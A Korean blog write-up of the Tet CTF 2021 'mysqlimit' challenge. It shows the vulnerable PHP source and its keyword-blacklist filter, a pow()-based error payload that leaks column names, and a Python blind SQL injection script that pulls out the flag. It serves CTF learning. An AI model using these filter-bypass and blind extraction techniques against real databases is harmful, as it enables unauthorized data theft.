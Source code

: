 ```yaml
---
layout: post
date: 2021-01-03 00:00:01
toc: true
title: "Tet CTF 2021 Write Up"
categories: CTF
tags: [SQL Injecion]
author:
  - Jeongwon Jo
---
```


<strong>2021년 1월 1일 오전 9시부터 Tet CTF라는 대회가 열렸습니다. 그래서 이번 대회에서 출제된 SQL Injectino 문제의 풀이를 작성해보겠습니다. 사실 대회는 2일동안 진행했는데 1시간도 안 했음,, 게임 한다고,,</strong>

---
<b>*<span style="color:#21C587">&#35;</span> mysqlimit [100pts]*</b><br>

```php
<!-- The Author of this challenge is so kind and handsome that he is giving you flag, just need to bypass his god-tier waf and grab it <3 -->

<?php 

include('dbconnect.php');

if(!isset($_GET["id"]))
{
    show_source(__FILE__);
}
else
{
    // filter all what i found on internet.... dunno why ｡ﾟ･（>﹏<）･ﾟ｡
    if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extract|xml|between|count|column|sleep|benchmark|\<|\>|\=/is' , $_GET['id'])) 
    {
        die('<img src="https://i.imgur.com/C42ET4u.gif" />'); 
    }
    else
    {
        // prevent sql injection
        $id = mysqli_real_escape_string($conn, $_GET["id"]);

        $query = "select * from flag_here_hihi where id=".$id;
        $run_query = mysqli_query($conn,$query);

        if(!$run_query) {
            echo mysqli_error($conn);
        }
        else
        {    
            // I'm kidding, just the name of flag, not flag :(
            echo '<br>';
            $res = $run_query->fetch_array()[1];
            echo $res; 
        }
    }
}

?>
```
<strong>일단 preg_match() 함수를 이용해서 수 많은 키워드를 필터링하고 있는 것을 볼 수 있습니다. 그리고 id 값이 1일때, 2일때의 출력값이 다르므로 Blind Based SQL Injection을 이용해 `flag`를 뽑아야겠다 생각이 들었습니다.</strong><br><br>

<strong>하지만 `culumn`이라는 키워드가 필터링이 걸려 있어 `flag`가 들어있는 컬럼을 Blind Based SQL Injection을 이용해서 뽑아올 수 없을 거 같다는 생각이 들었습니다. 왜냐하면 `information_schema.columns`라는 메타 테이블에서 `column_name`을 조회해야 하는데 필터링에 때문에 불가능하기 때문입니다.</strong><br><br>

![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%206.51.35.png?raw=true)<br>
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%206.56.37.png?raw=true)

<strong>그러다가 N1 CTF에서 `exp()` 함수를 이용해서 Error Based Blind SQL Injection을 이용한 적이 있어서 위와 같이 MySQL의 `exp()`함수를 이용해서 `Overflow`를 일으켜 에러에 내가 원하는 값(Column Name)을 포함시키는 방식으로 해결하려 했지만 `exp()` 함수를 필터링하고 있었습니다. 아마 이 방법을 못 쓰게 방지한 거 같습니다. 그래서 그냥 새해니 쉴려고 접고, 롤을 했었습니다. 그러다 오늘 아침에 다시 확인을 해보니 `exp()` 함수 대신 `pow()` 함수를 이용해도 잘 되는 것을 확인할 수 있었습니다.</strong>

![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%207.01.29.png?raw=true)

```sql
pow(~(select id from (select * from flag_here_hihi limit 0,1) as id),9999)
```
<strong>그래서 위 페이로드를 id 값으로 넘겨주니 에러에 컬럼 이름들이 포함되어 있는 것을 확인할 수 있었고, `t_fl4g_v3lue_su`라는 컬럼이 존재하는 것을 알 수 있었습니다.  이제 해당 컬럼의 값을 Blind Based SQL Injection을 이용해서 뽑아내면 GG</strong><br><br>

```python
import requests

url = "http://45.77.255.164/?id="
flag_len, flag = 0, ""

def Flag_len():
	global flag_len
	for i in range(100):
		payload = "length(t_fl4g_v3lue_su)in({})".format(i)
		URL = url + payload
		res = requests.get(URL)
		if "handsome_flag" in res.text:
			flag_len = i
			print("[+] Flag Length is {}".format(i))
			break

def Flag():
	global flag
	for i in range(1, flag_len + 1):
		for j in range(35, 126):
			payload = "ascii(right(left(t_fl4g_v3lue_su,{}),1))in({})".format(i, j)
			URL = url + payload
			res = requests.get(URL)
			if "handsome_flag" in res.text:
				flag += chr(j)
				break
	print("Flag is {}".format(flag))

if __name__ == '__main__':
	print("[+] Exploitation ...")
	Flag_len()
	Flag()
```
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%208.20.53.png?raw=true)

<strong>위와 같이 익스플로잇 코드를 작성하고 돌려주니 flag가 잘 나오는 것을 볼 수 있습니다.</strong><br>

`FLAG : TetCTF{_W3LlLlLlll_Pl44yYyYyyYY_<3_vina_*100*28904961445554#}`

---

